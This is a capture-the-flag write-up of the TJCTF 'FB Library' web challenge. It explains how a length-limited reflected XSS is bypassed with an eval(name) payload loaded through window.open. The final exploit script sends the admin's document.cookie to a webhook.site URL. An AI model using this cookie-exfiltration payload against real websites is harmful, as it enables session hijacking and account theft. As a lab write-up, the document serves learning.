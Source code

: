 ### FB Library

FB Library was the 2nd to last web challenge, with 20 solves and worth 90 points. However, it had the least solves, even though the solution was probably the shortest.

The website is a catalog of books where you can search for specific ones. You can register and login to accounts (but this was a red herring), as well as report URLs to the admin. There was a cookie named `session` that could be accessed by JavaScript, and an `/admin` endpoint that normal users couldn't access. Obvious XSS challenge.

Finding the XSS was easy too - the search parameter wasn't filtered and you could achieve XSS fairly quickly.

![](./images/xssProof.png)

However, the problem came when trying to exploit this XSS - there was a length constraint of 20 characters.

![](./images/unfortunate.png)

Any input longer than 20 would get truncated to 17 characters. There was a report function where you could report to the admin any URL, but CORS was too strong and you couldn't make requests back to the website from your own domain.

That meant that we had to find an XSS vector with less than 20 characters. Looking at the source code of the website, we see:
![](./images/sourceOwo.png)

There's a script tag with a comment below where our input is reflected. This means that we don't need to finish a script tag when injecting, and can just end our code with a comment. This allows us to inject code like `<script>alert(1)/*` and just barely get past the length restraint.

Not including the `<script>` and `/*`, we have a total of 10 characters with which to work with in a JS context. We need to find a place to store our exploit so we can evaluate any script we want. `eval` will take up 6 characters (`eval()`), which means that we need to find a 4 character long variable to exploit.

```javascript
for(var key in window) {
    if(key.length <= 4) console.log(key)
}
```

![](./images/windowVariables.png)

I first tried out jQuery, to no success. Eventually, I started looking into the `name` variable, and found [this](https://www.w3schools.com/jsref/prop_win_name.asp) page.

The `name` variable is set when using the `window.open()` method, and is one of the parameters in the function! From this point, the rest was simple.

Host a webpage with the following source:
```html
<script>
window.open("https://fb_library.tjctf.org/search?q=<script>eval(name)/*", "location.href=`https://webhook.site/72244fec-fd93-42f5-8b09-797fccfd078d?q=${document.cookie}`");
</script>
```

and you'll get the flag!

![](./images/flag.png)

```
tjctf{trunc4t3d_n0_pr0bl3m_rly???}
```

**Note from Drakon:** There was another way to solve this with command injection, but I didn't actually manage to get that working so yeah. It *was* a thing, though.